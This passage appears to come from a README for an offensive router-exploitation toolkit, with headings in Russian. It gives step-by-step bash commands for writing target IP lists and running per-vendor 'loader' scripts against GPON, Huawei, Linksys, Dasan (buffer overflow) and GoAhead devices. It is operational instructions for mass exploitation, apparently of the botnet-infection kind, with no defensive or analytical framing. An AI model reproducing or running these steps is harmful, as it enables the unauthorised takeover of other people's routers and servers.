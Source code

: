 ### 4. 🌐 GPON Роутеры
```bash
# Подготовка
echo "203.0.113.1" > gpon/targets.lst

# Запуск
python2 gpon/gloader.py gpon/targets.lst

# Через bash
chmod +x gpon/gpon.sh
bash gpon/gpon.sh
```

### 5. 📱 Huawei Устройства
```bash
# Список целей
echo "198.51.100.1" > huawei/targets.lst

# Запуск
python2 huawei/huawei.py huawei/targets.lst

# Альтернативно
chmod +x huawei/huawei.sh
bash huawei/huawei.sh
```

### 6. 🏠 Linksys Роутеры
```bash
# Подготовка списка
echo "192.168.1.1" > linksys/targets.lst

# Запуск
python2 linksys/linksys.py linksys/targets.lst

# Через скрипт
chmod +x linksys/linksys.sh
bash linksys/linksys.sh
```

### 7. 🏢 Dasan Роутеры (Buffer Overflow)
```bash
# Список целей
echo "192.168.1.1" > dasan/targets.lst

# Запуск
python2 dasan/Loader.py dasan/targets.lst
```

### 8. 🌐 GoAhead Web Серверы
```bash
# Подготовка списка
echo "203.0.113.10" > goahead/targets.lst

# Запуск
python2 goahead/loader.py goahead/targets.lst
```
